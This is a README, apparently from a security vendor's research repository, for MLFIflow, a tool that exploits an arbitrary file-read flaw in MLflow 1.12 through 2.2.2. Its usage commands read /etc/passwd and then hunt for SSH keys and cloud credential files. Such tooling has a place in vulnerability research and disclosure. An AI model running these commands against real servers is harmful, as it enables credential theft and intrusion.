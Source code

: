 # MLFIflow

MLFIflow is an exploit tool for reading arbitrary files from MLflow servers version 1.12 - 2.2.2.

## Installation

```bash
git clone https://github.com/protectai/Snaike-MLflow.git
cd Snaike-MLflow/MLFIflow
python3 -m venv venv
source venv/bin/activate
pip install -r requirements.txt
```

## Usage

By default, MLFIflow will attempt to read /etc/passwd from the MLflow server and use the usernames found to search for
SSH keys and cloud credential files.
```bash
python MLFIflow.py -s http://127.0.0.1:5000
```

To specify a wordlist of files to download, use the -f flag:
```bash
python MLFIflow.py -s http://127.0.0.1:5000 -f /path/to/wordlist.txt
```

Read files from a remote artifact server:
```bash
python MLFIflow.py -s http://127.0.0.1:5000 -f /path/to/wordlist.txt --remote http://1.2.3.4
```

Read a specific file from the MLflow server:
```bash
python MLFIflow.py -s http://127.0.0.1:5000 -t /etc/passwd
```

## Contributing

Pull requests are welcome. For major changes, please open an issue first
to discuss what you would like to change.

## License

Copyright 2023 ProtectAI

Licensed under the Apache License, Version 2.0 (the "License");
you may not use this file except in compliance with the License.
You may obtain a copy of the License at

   http://www.apache.org/licenses/LICENSE-2.0

Unless required by applicable law or agreed to in writing, software
distributed under the License is distributed on an "AS IS" BASIS,
WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
See the License for the specific language governing permissions and
limitations under the License.
